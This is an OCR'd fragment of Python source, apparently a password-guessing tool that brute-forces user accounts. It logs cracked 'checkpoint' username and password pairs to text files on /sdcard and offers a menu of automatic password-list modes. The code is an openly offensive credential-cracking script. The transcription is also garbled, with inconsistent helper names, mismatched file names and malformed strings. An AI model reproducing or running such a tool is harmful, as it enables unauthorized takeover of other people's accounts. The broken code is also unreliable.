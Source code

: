 					month, day, year = cp_ttl.split('/')

					

					wrt = '%s - %s - %s %s %s%s' % (user,pw,day,month,year,tahn(user))

					cp.append(wrt)

					open('/sdcard/YASIN_CP.txt','a').write('%s\n' % wrt)

					break

				except (KeyError, IOError):

					month = ''

					day   = ''

					year  = ''

				except:

					pass

				print('\r\033[1;91m[YASIN-CHECKPOINT] %s | %s%s      ' % (user,pw,tahun(user)))

				wrt = '%s - %s%s'%(user,pw,tahu(user))

				cp.append(wrt)

				open('/sdcard/YASINI_CP.txt','a').write('%s\n' % wrt)

				break

			else:

				continue

		loop += 1

	def __pler__(self):

		print ("\033[1;94m [1] Auto 2 Pass ([ P R O ] ")

		print (" [2] Auto 2 Digit Pass ([ F A S T ] ")

		print (" [3] Auto 5 Pass [ S L O W ]")

		print (" [4] Auto 4 Digit Pass [ S L O W ]")

		yan = input('\n [•] \033[1;37m C H O O S E : ')

		if yan == '':

			print('\Choose Error ')

			exit()

		elif yan in ('1', '01'):

			time.sleep(1)

			print('\n[•] Result OK saved to OK.txt')

			print('[•] Result CP saved to CP.txt')
